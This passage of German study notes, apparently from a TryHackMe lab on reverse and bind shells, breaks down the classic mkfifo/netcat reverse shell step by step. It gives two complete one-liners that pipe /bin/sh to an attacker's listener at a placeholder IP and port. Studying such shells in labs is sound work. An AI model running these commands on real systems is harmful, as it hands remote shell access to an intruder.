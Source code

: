 ##### Beispielhafter Ablauf

* links: Listener (bei mir)
* rechts: aus einfacher [Reverse Shell](#Linux:TryHackMe:Reverse & Bind Shells) wird per ``socat`` eine stabile, interaktive Standard-Shell (mit [:Linux:ssh](../ssh.md)-Unterstützung)

![](./Reverse_&_Bind_Shells/pasted_image001001.png)

* anschließend kann man noch die [#tty-werte](#Linux:TryHackMe:Reverse & Bind Shells) setzen


### Standard-mkfifo-Reverse Shell
	rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc ZIEL-IP PORT > /tmp/f; rm /tmp/f


0. Davor sollte ein *netcat-Listener* auf dem angegeben Port auf dem eigenen Rechner gestartet werden
1. ``rm /tmp/f`` Sicherheitshalber die Datei ``/tmp/f`` löschen, falls sie existiert, da ``mkfifo`` sonst keine neue *Named Pipe* anlegen kann. (Die *Named Pipe* wird bewusst im ``/tmp``-Verzeichnis angelegt, das beim Booten gelöscht wird und sowieso nur unwichtige Dateien enthält)
2. ``mkfifo /tmp/f`` Anlegen einer *Named Pipe*
3. [id: mkfifo-nc-shell]``cat /tmp/f | /bin/sh -i 2>&1 | nc ZIEL-IP PORT > /tmp/f``
	1. ``cat /tmp/f`` lesen aus der *Named Pipe*
	2. ``| /bin/sh -i 2>&1`` Ausgabe von „a.“ in ``/bin/sh`` leiten (``|``)

``-i`` (``i``nteractive) sorgt dafür, dass man mit der Shell interagieren, also interaktive Programme wie [:Linux:**ssh**](../ssh.md) starten kann
``2>&1`` Fehlermeldung auf ``stdout`` leiten (s. [:Linux:**Deskriptoren**](../Deskriptoren.md)), damit auch diese an mich durch ``nc`` geschickt werden (sonst würden sie beim Ziel angezeigt werden)

3. ``| nc IP PORT`` Ausgaben von ``/bin/sh`` an ``nc`` leiten, das die Informationen an ``IP:PORT``, die dabei auf meinen Rechen verweisen, schickt
4. ``>`` Ausgaben von ``nc``, dh. unsere Eingaben, die an diesen *netcat*-Prozess geschickt werden, in die *Named Pipe* ``/tmp/f`` leiten


4. ``rm /tmp/f`` *Named Pipe* löschen

Der Befehl unter [3.](#Linux:TryHackMe:Reverse & Bind Shells) beschreibt einen Kreis, da *Named Pipes* nur funktionieren, wenn sie gleichzeitig gelesen und beschrieben werden. Das Ablaufdiagramm kann sich wie folgt vorgestellt werden:
``/tmp/f`` → ``cat`` → ``/bin/sh`` → ``nc`` → (auf meinem Rechner) Ausgabe im Terminal → Warten auf Eingabe → (auf Zielrechner) Eingabe in ``/tmp/f`` schreiben → ``cat`` → …

#### Weitere Möglichkeit
	rm /tmp/f; mkfifo /tmp/f; nc <MEINE IP> PORT < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f

![](./Reverse_&_Bind_Shells/pasted_image004.png)
### Standard-mkfifo-Bind Shell
